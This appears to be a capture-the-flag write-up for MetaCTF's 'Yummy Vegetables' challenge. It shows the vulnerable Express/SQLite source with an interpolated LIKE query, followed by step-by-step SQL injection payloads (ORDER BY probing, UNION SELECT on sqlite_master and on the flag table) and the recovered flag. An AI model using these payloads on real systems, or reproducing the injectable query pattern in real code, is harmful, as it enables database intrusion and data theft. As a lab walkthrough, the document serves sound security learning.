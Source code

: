 # Yummy Vegetables

This Challenges was based on a simple SQL injection.

First we looked at the interaction of the web page and see directly that there
is a query made over a custom  
http Query. We can simulate such a query with this curl script:  
```bash  
curl http://host.cg21.metaproblems.com:4010/search -X SEARCH --header
"Content-Type: application/json" --data '{"query":"test"}'  
```

With the given sourcecode of the index.js:  
```js  
const express = require('express');  
const Ajv = require('ajv');  
const sqlite = require('better-sqlite3');  
const sleep = (ms) => new Promise((res) => { setTimeout(res, ms) })  
// set up express  
const app = express();  
app.use(express.json());  
app.use(express.static('public'));  
// ajv request validator  
const ajv = new Ajv();  
const schema = {  
 type: 'object',  
 properties: {  
   query: { type: 'string' },  
 },  
 required: ['query'],  
 additionalProperties: false  
};  
const validate = ajv.compile(schema);  
// database  
const db = sqlite('db.sqlite3');  
// search route  
app.search('/search', async (req, res) => {  
 if (!validate(req.body)) {  
   return res.json({  
     success: false,  
     msg: 'Invalid search query',  
     results: [],  
   });  
 }  
 await sleep(5000); // the database is slow :p  
 const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;  
 let results;  
 try {  
   results = db.prepare(query).all();  
 } catch {  
   return res.json({  
     success: false,  
     msg: 'Something went wrong :(',  
     results: [],  
   })  
 }  
 return res.json({  
   success: true,  
   msg: `${results.length} result(s)`,  
   results,  
 });  
});  
// start server  
app.listen(3000, () => {  
 console.log('Server started');  
});  
```

We can also verify the SQLi vector at the line:  
```js  
const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;  
```

With this given SQL injection we can now check the column count:  
```sql  
%' order by 5; --  
%' order by 4; --  
%' order by 3; --  
```  
So we know that we got 3 columns so lets create a test:

```  
%' AND 1=0 UNION SELECT 1,name,3 FROM sqlite_master; --  
```

And we get a list of tables in the database. We can assume that our table
`the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5`  
holds our flag, so we tried to get the column flag of that table.

```sql  
%' and 1=0 UNION SELECT 1,flag,2 FROM
the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5; --  
```

And we got the flag:

```  
MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}  
```

Original writeup (https://github.com/PwnProphecy/ctf/blob/main/metactf-
cybergames2021/Yummy-Vegetables.md).